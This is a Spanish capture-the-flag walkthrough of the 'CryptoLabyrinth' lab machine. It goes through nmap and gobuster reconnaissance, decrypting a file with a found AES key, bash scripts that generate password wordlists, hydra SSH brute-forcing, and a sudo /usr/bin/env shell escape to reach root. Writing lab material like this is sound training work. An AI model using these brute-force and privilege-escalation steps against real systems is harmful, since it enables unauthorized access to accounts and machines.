 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 25/10/2024 🖥️The
  Hacker Labs
---
```


# CryptoLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.82
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.82
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (6).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.82
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (9).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de **Apache**.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos una cadena que podría ser una contraseña.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (3).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.82/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://192.168.1.82/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Desciframos estos hashes y se nos proporciona 4 contraseñas y al probar vemos que no son. Hay un hash que falta por lo que creamos un diccionario con la cadena vista en el código fuente.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los últimos dos asteriscos (si existen)
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Generar combinaciones con el comando seq y expandiendo directamente los caracteres
for i in $(seq 0 $((${#caracteres}-1))); do
    for j in $(seq 0 $((${#caracteres}-1))); do
        # Concatenar la palabra sin asteriscos con los caracteres generados
        echo "${palabra_sin_asteriscos}${caracteres:$i:1}${caracteres:$j:1}" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

```bash
./rompe.sh "2LWxmDsW0**"
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos la fuerza bruta al usuario **bob** con las combinaciones generadas anteriormente.

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tras haber obtenido las credenciales, iniciamos sesión con **bob**.

```bash
ssh bob@192.168.1.82
```

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña pero con el usuario **alice**. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo -u alice /usr/bin/env /bin/sh
```

Mejoramos la TTY para trabajar en alice.

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando entre los directorios encontramos en el directorio `/mnt` un archivo secreto.

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos un diccionario como anteriormente para descifrar la contraseña correcta.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los asteriscos de la palabra
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Obtener la longitud de la palabra sin asteriscos
longitud=${#palabra_sin_asteriscos}

# Generar todas las combinaciones de 2 caracteres
for ((i = 0; i < ${#caracteres}; i++)); do
    for ((j = 0; j < ${#caracteres}; j++)); do
        # Insertar los caracteres en las posiciones deseadas
        combinacion="${palabra_sin_asteriscos:0:4}${caracteres:i:1}${palabra_sin_asteriscos:4:5}${caracteres:j:1}"
        # Escribir en el archivo
        echo "$combinacion" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

<figure><img src="../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta para conseguir la contraseña completa.

```bash
hydra -l root -P combinaciones.txt ssh://192.168.1.82
```

Obtenemos la contraseña completa que es **`2LWx9DsW0A3`**.

<figure><img src="../.gitbook/assets/Captura de pantalla 2024-10-26 172442.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
